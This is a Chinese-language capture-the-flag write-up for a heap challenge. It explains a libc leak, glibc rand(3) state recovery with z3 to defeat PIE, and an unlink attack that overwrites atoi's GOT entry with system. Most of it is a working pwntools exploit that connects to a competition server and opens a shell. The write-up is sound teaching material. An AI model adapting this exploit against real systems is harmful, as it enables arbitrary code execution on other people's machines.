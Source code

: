 # 简介

一道考察unlink利用的题目，但开了PIE，引出第二个考点[glibc rand(3)预测攻击](http://inaz2.hatenablog.com/entry/2016/03/07/194000)。

# 程序功能

有5次malloc的机会，大小递增，只有2、3两个可以free，并且free和write、show都是任意的，全局变量中有指向堆的指针。

# 构思
造出small bin，free就可以泄漏libc，然后很容易想到用unlink去做，并且这里有很方便的atoi，改为system即可。但是本题有PIE，于是要想办法leak出程序的信息。

仔细研究发现还有个奇葩的猜随机数功能，猜错给出当前随机数，根据glibc的rand实现可知，内部有31个状态，找到93次输出，用z3就可以解出所有的状态，并预测下一次。

预测成功就可以拿到seed的地址，这是一个`.bss`段的地址，根据偏移就可以推算出堆指针和got entry的地址，用unlink利用即可。

# 利用

```python
from pwn import *
from z3 import *

import sys 
if len(sys.argv) > 1:
    r = remote('123.206.22.95', 8888)
else:
    r = remote('127.0.0.1', 4444)
context.arch = 'amd64'

offset___libc_start_main_ret = 0x20830
offset_system = 0x0000000000045390
offset_dup2 = 0x00000000000f7940
offset_read = 0x00000000000f7220
offset_write = 0x00000000000f7280
offset_str_bin_sh = 0x18cd17


def get(i, size):
    r.sendlineafter('> ', '1')
    r.sendlineafter('> ', str(i))
    r.sendlineafter('> ', str(size))

def free(i):
    r.sendlineafter('> ', '2')
    r.sendlineafter('> ', str(i))

def write(i, msg):
    r.sendlineafter('> ', '3')
    r.sendlineafter('> ', str(i))
    r.send(msg)

def show(i):
    r.sendlineafter('> ', '4')
    r.sendlineafter('> ', str(i))
    c = r.recvuntil('You')
    c = c.replace('You', '')
    c = c.rstrip()
    return u64(c.ljust(8, '\x00'))

def guess(i):
    r.sendlineafter('> ', '5')
    r.sendlineafter('> ', str(i))
    r.recvuntil('!')
    maybe = r.recvuntil('!')
    value = int(maybe.split(' ')[-1].replace('!', ''))
    if 'secret' in maybe:
        return (1, value)
    return (0, value)

actual = []
state = [BitVec("state%d" % i, 32) for i in xrange(31)]
s = Solver()
for i in xrange(93):
    actual.append(guess(1)[1])

for i in xrange(93):
    state[(3+i)%31] += state[i%31]
    output = (state[(3+i) % 31] >> 1) & 0x7fffffff
    s.add(output == actual[i])
    
print s.check()
m = s.model()

for i in xrange(93, 93+31):
    state[(3+i) % 31] += state[i % 31]
    output = m.evaluate((state[(3+i) % 31] >> 1) & 0x7fffffff)
    actual = guess(output)
    assert actual[0] == 1
    break

context.log_level = 'debug'
offset_seed = 0x555555756148
offset_atoi_got = 0x555555756068
offset_box2 = 0x555555756110

seed_addr = actual[1]
print hex(seed_addr)
atoi_got = offset_atoi_got - offset_seed + seed_addr
box2 = offset_box2 - offset_seed + seed_addr
print hex(box2)
get(1, 24)
get(2, 0x90-8)
get(3, 0xa0-8)

free(2)
leak_libc = show(2)
libc_base = leak_libc - 0x3c4b78
print hex(libc_base)
system = offset_system + libc_base
print hex(system)

write(2, flat( 
    0,
    0x81,
    box2-0x18,
    box2-0x10,
    'A'*(0x90-8-8*5),
    0x80,
    '\xa0'
    ))
raw_input('#')
free(3)
write(2, flat(0, 0, 0, atoi_got) + '\n')
print `p64(system)`
write(2, p64(system) + '\n')
r.sendlineafter('> ', '/bin/sh\x00')

r.interactive()
```
